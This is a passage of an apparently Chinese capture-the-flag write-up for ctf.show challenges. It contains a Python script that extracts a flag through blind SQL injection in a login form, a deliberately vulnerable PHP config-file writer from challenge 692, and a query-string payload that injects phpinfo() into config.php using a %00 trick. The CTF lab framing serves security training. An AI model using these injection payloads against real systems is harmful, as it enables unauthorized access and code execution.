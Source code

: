 ```python
import requests
import time

url = "http://ffeff89d-7853-41d5-b22c-d06910b73030.challenge.ctf.show/"
strs = "-0123456789abcdef}"

flag = "ctfshow{"
tmp = ""
while True:
    for i in strs:
        r = requests.post(url=url, data={"username": "1", "password": f"' or 1 union select 1,2,'{flag}{i}' from admin order by 3 #"})
        time.sleep(0.2)
        # print(r.text[5109:])
        if r.text[5109:] == "admin":
            flag += tmp
            print(flag)
            break
        if r.text[5109:] == '2' and i == 'f':
            flag += '}'
            print(flag)
            exit()
        tmp = i
```

## 692-经典的配置文件漏洞

```php
<?php

highlight_file(__FILE__);

if(!isset($_GET['option'])) die();
$str = addslashes($_GET['option']);
$file = file_get_contents('./config.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('./config.php', $file);
```

[经典写配置漏洞与几种变形 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/thinking-about-config-file-arbitrary-write.html)

[PHP正则经典漏洞 - dlive - 博客园 (cnblogs.com)](https://www.cnblogs.com/dliv3/p/6483830.html)

### 1.利用`$00`或`$0`

```
?option=;phpinfo();
?option=%00

然后访问/config.php
```
